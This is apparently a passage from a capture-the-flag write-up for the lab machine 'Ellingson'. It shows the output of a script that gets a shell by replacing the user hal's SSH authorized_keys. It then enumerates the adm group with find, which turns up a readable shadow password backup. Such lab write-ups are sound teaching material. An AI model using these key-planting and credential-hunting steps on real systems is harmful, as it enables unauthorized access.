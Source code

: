 ```
```

It gets a shell:

```

root@kali# ./hal_shell.sh
[+] Got frame and secret from debug page
[*] Copying /home/hal/.ssh/authorized_keys to /home/hal/.ssh/authorized_keys.bak
[*] Writing .pub to /home/hal/.ssh/authorized_keys
[*] Connecting to ellingson as hal
[*] Should reset /home/hal/.ssh/authorized_keys to original
hal@ellingson:~$

```

## Priv: hal –> margo

### Enumeration

Right away when I run `id` I notice that hal is in the `adm` group:

```

hal@ellingson:~$ id
uid=1001(hal) gid=1001(hal) groups=1001(hal),4(adm)

```

According to the [Debian documentation](https://wiki.debian.org/SystemGroups):

> Group adm is used for system monitoring tasks. Members of this group can
> read many log files in /var/log, and can use xconsole. Historically,
> /var/log was /usr/adm (and later /var/adm), thus the name of the group.

This is interesting and unusual. After a few minutes of looking around `/var/log` and not seeing much that was useful, I decided to see what all the files owned by this group were:

```

hal@ellingson:/$ find / -group adm 2>/dev/null
/var/backups/shadow.bak
/var/spool/rsyslog
/var/log/auth.log
/var/log/mail.err
/var/log/fail2ban.log
/var/log/kern.log
/var/log/syslog
/var/log/nginx
/var/log/nginx/error.log
/var/log/nginx/access.log
/var/log/cloud-init.log
/var/log/unattended-upgrades
/var/log/apt/term.log
/var/log/apport.log
/var/log/mail.log
/snap/core/6405/var/log/dmesg
/snap/core/6405/var/log/fsck/checkfs
/snap/core/6405/var/log/fsck/checkroot
/snap/core/6405/var/spool/rsyslog
/snap/core/4917/var/log/dmesg
/snap/core/4917/var/log/fsck/checkfs
/snap/core/4917/var/log/fsck/checkroot
/snap/core/4917/var/spool/rsyslog
/snap/core/6818/var/log/dmesg
/snap/core/6818/var/log/fsck/checkfs
/snap/core/6818/var/log/fsck/checkroot
```